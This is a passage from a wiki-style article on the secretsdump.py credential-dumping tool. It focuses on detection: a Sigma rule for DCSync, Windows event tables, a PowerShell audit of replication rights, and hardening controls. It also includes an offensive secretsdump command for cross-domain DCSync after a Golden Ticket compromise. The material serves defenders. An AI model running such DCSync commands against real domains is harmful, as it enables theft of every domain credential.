A starter Sigma rule:

```yaml
title: DCSync via DRSUAPI from Non-DC Source
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4662
    Properties|contains:
      - '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2'
      - '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2'
  filter_machine_accounts:
    SubjectUserName|endswith: '$'
  filter_known_replicators:
    SubjectUserName:
      - 'AzureADConnect'
      - 'svc_replicator'
  condition: selection and not filter_machine_accounts and not filter_known_replicators
level: high
```

Tune the allowlist for your environment. Azure AD Connect, Microsoft Identity Manager (MIM), and various third party identity products legitimately perform DCSync as part of their function.

### Remote registry mode

| Log | Event ID | Trigger |
|:---|:---||
| Security | 4624 | The SMB authentication. |
| Security | 4634 | The session ending. |
| Security | 5145 | Access to `\pipe\svcctl` and `\pipe\winreg` named pipes. Requires "Audit Detailed File Share". |
| System | 7036 | RemoteRegistry service state changes (stop, start). |
| Security | 4673 | Sensitive privilege use, including `SeBackupPrivilege` for the hive save operation. |

The combination of starting RemoteRegistry, accessing `\pipe\winreg`, and using `SeBackupPrivilege` from a non administrative source is a strong signal even without per file audit.

### VSS mode

VSS mode produces additional events on top of the remote registry signals:

| Log | Event ID | Trigger |
|:---|:---||
| System | 8224 | VSS shadow copy creation. |
| Security | 4688 | Process creation for `vssadmin.exe`. |
| Security | 4624 | Authentication for the exec method. |

Sysmon Event ID 1 (process creation) on Windows captures `vssadmin create shadow` extremely clearly. EDR products universally flag this pattern.

### Offline mode

Offline mode produces no events at all on the target system, because there is no interaction with the target. The events that produced the original hive files (file copy, shadow copy creation, backup software execution) are the only signals available.


## Detection and defense

### Detection opportunities

The detection story is excellent for some modes and challenging for others.

**DCSync detection via 4662.** As described above. The single highest fidelity detection in Active Directory. Every defender should have this rule deployed.

**Replication ACL audit.** Microsoft's PowerShell:

```powershell
Get-ADObject -Identity (Get-ADDomain).DistinguishedName -Properties nTSecurityDescriptor |
  Select-Object -ExpandProperty nTSecurityDescriptor |
  Select-Object -ExpandProperty Access |
  Where-Object {$_.ObjectType -in '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2','1131f6ad-9c07-11d1-f79f-00c04fc2dcd2'} |
  Select-Object IdentityReference, ActiveDirectoryRights, ObjectType
```

Returns every principal granted DCSync rights on the domain. Compare against expected: domain controllers, the built in administrative groups, and any explicitly authorized identity products. Anything else is a finding.

**Remote registry detection.** The pattern of starting RemoteRegistry, accessing `\pipe\winreg`, saving hive files, and reading them back via SMB is highly distinctive. EDR products with named pipe visibility flag this reliably.

**VSS detection.** `vssadmin.exe` invocation from a remote source is a strong attacker signal. Microsoft Defender for Endpoint and most commercial EDR products alert on this by default.

**Offline mode prevention.** The events that produce the source files (volume snapshots, file copies, backup software anomalies) are the only opportunity. Comprehensive backup auditing and DLP for hive files are the relevant controls.

### Preventive controls

The most impactful controls for defending against `secretsdump.py`:

- **Audit and minimize who has DCSync rights.** Anyone with `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` on the domain naming context can dump every credential. Limit to actual domain controllers and to legitimately authorized identity products. Audit quarterly.
- **Tier zero account hygiene.** Domain admins and equivalents should never log on to lower tier endpoints. The path to DCSync starts with a Domain Admin credential; protect those credentials at the source.
- **Enable LSA Protection (RunAsPPL).** Prevents user mode tools (including mimikatz) from reading LSASS memory. Does not affect `secretsdump.py` directly because the tool does not read LSASS, but it cuts off one of the upstream paths to credential theft.
- **Enable Credential Guard.** Hardware backed isolation of credential material. Prevents NT hash and TGT extraction from LSASS. Same upstream protection as LSA Protection but with stronger guarantees.
- **Monitor for the DCSync detection signature.** Even with all the prevention in place, monitoring is the final line. The 4662 detection is high fidelity and easy to deploy.
- **Disable the Print Spooler service on domain controllers.** Closes the SpoolSample coercion vector that attackers use to obtain DC TGTs (a separate path from DCSync but in the same family of credential extraction techniques).
- **Cached credentials limits.** Set `CachedLogonsCount` to a low value (or 0 in highest security environments). Reduces what `secretsdump.py` can extract from the SECURITY hive.
- **Service account hygiene.** Avoid storing service account credentials in the LSA secret cache. Use Group Managed Service Accounts (gMSAs) where possible. Where service account credentials must be cached, ensure they are not over privileged.
- **Audit `RemoteRegistry` service state.** Some hardening guides recommend disabling and blocking the RemoteRegistry service entirely. This breaks legitimate management tooling but stops the remote registry mode of `secretsdump.py`.
- **Block the prerequisites for DRSUAPI binding.** Network segmentation that prevents arbitrary hosts from reaching the DCs' RPC ports limits who can attempt DCSync. DCs should only accept connections from administrative networks and other DCs.


## Related tools and attack chains

`secretsdump.py` is the most central tool in the credential access category. It connects upstream and downstream to nearly everything else in the wiki.

### Tools that produce input or context

- **[`samrdump.py`](../01_recon_and_enumeration/samrdump.md)** identifies the user accounts that DCSync will target.
- **[`lookupsid.py`](../01_recon_and_enumeration/lookupsid.md)** provides the domain SID needed for many follow up workflows.
- **[`findDelegation.py`](../01_recon_and_enumeration/findDelegation.md)** identifies delegated accounts whose credentials become especially valuable.
- **[`getTGT.py`](../02_kerberos_attacks/getTGT.md)** produces the ccache used to authenticate to `secretsdump.py` via Kerberos.
- **[`getST.py`](../02_kerberos_attacks/getST.md)** produces the impersonated Service Tickets that authorize DCSync against a DC.

### Tools that consume `secretsdump.py` output

- **[`getTGT.py`](../02_kerberos_attacks/getTGT.md)** uses the extracted NT hashes (over pass the hash) and AES keys (pass the key) to obtain TGTs.
- **[`ticketer.py`](../02_kerberos_attacks/ticketer.md)** uses the extracted `krbtgt` keys to forge Golden Tickets and the extracted machine account keys to forge Silver Tickets.
- **[`psexec.py`](../04_remote_execution/psexec.md), [`smbexec.py`](../04_remote_execution/smbexec.md), [`wmiexec.py`](../04_remote_execution/wmiexec.md), [`atexec.py`](../04_remote_execution/atexec.md)** consume the recovered credentials directly for lateral movement.
- **hashcat and John the Ripper** consume the hashes for offline cracking.
- **mimikatz** consumes hashes for ticket forgery on Windows attacker hosts.
- **BloodHound** ingests the credentials to enrich attack path analysis.

### A canonical engagement chain



The chain illustrates why `secretsdump.py` is so central. Almost every full domain compromise chain passes through it at least once, often multiple times.

### Cross domain DCSync

A trusted parent domain typically has Enterprise Admin credentials that can DCSync child domains. After compromising a parent domain via Golden Ticket, DCSync the child:

```bash
# After establishing parent compromise via Golden Ticket
export KRB5CCNAME=parent_admin.ccache
secretsdump.py -k -no-pass -just-dc 'CHILD.CORP.LOCAL/Administrator@dc01.child.corp.local'
```

The cross trust DCSync uses the Enterprise Admin's authority (which the Golden Ticket claims) to dump the child domain's credentials.


## Further reading

- **`[MS-DRSR]`: Directory Replication Service (DRS) Remote Protocol.** `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/`. The authoritative DCSync specification. Section 4.1.10 covers `IDL_DRSGetNCChanges`.
- **`[MS-RRP]`: Windows Remote Registry Protocol.** `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/`. The remote registry interface used by the registry mode.
- **`[MS-SAMR]`: Security Account Manager Remote Protocol.** Used for some preliminary lookups before DCSync.
- **Benjamin Delpy "DCSync" mimikatz documentation** at `https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump`. The original popular DCSync implementation. Reading the mimikatz `lsadump::dcsync` source alongside `secretsdump.py` is illuminating.
- **Sean Metcalf "Mimikatz DCSync Usage, Exploitation, and Detection"** at `https://adsecurity.org/`. The most accessible introduction to the technique and its detection.
- **Stealthbits "Privilege Escalation Using Mimikatz DCSync"** at `https://attack.stealthbits.com/`. Detector and preventer perspective on the same content.
- **Synacktiv "LSA Secrets: Revisiting Secretsdump"** at `https://www.synacktiv.com/en/publications/lsa-secrets-revisiting-secretsdump`. Recent (2025) deep dive on the LSA secrets handling that proposes an alternative `regsecrets.py` approach that bypasses some detection.
- **Csaba Barta "Active Directory Offline Hash Dump and Forensics"** at `http://www.ntdsxtract.com/downloads/ActiveDirectoryOfflineHashDumpAndForensics.pdf`. The foundational paper on NTDS.dit offline parsing. Old but technically definitive.
- **MITRE ATT&CK T1003 OS Credential Dumping** and all six sub techniques at `https://attack.mitre.org/techniques/T1003/`. Each sub technique covers one of the credential storage systems documented in this article.
- **Microsoft "Active Directory Replication" documentation** at `https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/`. Authoritative reference for the DRSUAPI behavior that DCSync abuses.
- **The Hacker Recipes "Credential Dumping" section** at `https://www.thehacker.recipes/ad/movement/credentials/dumping`. Practical reference covering all the dumping techniques and their tooling.
- **BloodHound documentation on `GetChanges` and `GetChangesAll` edges** at `https://bloodhound.specterops.io/`. Shows how DCSync rights are visualized in attack path analysis.

If you want to internalize this material, build a lab with a DC, a member server, and a workstation. Run `secretsdump.py` against each in sequence, in each of the four modes. Inspect the resulting output for each credential type. Then run the detection rules from this article against your own SIEM and verify they fire. Doing this once converts `secretsdump.py` from a black box that produces hashes into a tool you understand at every layer, and it gives defenders a feel for what the detection signals actually look like in practice.
